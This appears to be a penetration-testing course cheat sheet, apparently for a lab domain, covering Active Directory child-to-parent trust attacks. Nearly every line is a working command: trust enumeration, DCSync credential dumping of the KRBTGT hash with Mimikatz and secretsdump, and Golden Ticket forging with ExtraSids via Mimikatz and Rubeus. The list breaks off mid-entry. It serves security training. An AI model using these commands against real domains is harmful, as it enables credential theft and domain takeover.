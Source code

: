 **Trust Relationships — Child > Parent Trusts**

`Import-Module activedirectory`

> Used to import the `Active Directory` module. Performed from a Windows-based host.

`Get-ADTrust -Filter *`

> PowerShell cmd-let used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host.

`Get-DomainTrust`

> PowerView tool used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host.

`Get-DomainTrustMapping`

> PowerView tool used to perform a domain trust mapping from a Windows-based host.

`Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName`

> PowerView tools used to enumerate users in a target child domain from a Windows-based host.

`mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt`

> Uses Mimikatz to obtain the `KRBTGT` account's `NT Hash` from a Windows-based host.

`Get-DomainSID`

> PowerView tool used to get the SID for a target child domain from a Windows-based host.

`Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid`

> PowerView tool used to obtain the `Enterprise Admins` group's SID from a Windows-based host.

`ls \\academy-ea-dc01.inlanefreight.local\c$`

> Used to attempt to list the contents of the C drive on a target Domain Controller. Performed from a Windows-based host.

`mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt`

> Uses `Mimikatz` to create a `Golden Ticket` from a Windows-based host .

`.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt`

> Uses `Rubeus` to create a `Golden Ticket` from a Windows-based host.

`mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm`

> Uses `Mimikatz` to perform a DCSync attack from a Windows-based host.

`secretsdump.py logistics.inlanefreight.local/lafi@172.16.5.240 -just-dc-user LOGISTICS/krbtgt`

> Impacket tool used to perform a DCSync attack from a Linux-based host.

`lookupsid.py logistics.inlanefreight.local/lafi@172.16.5.240`
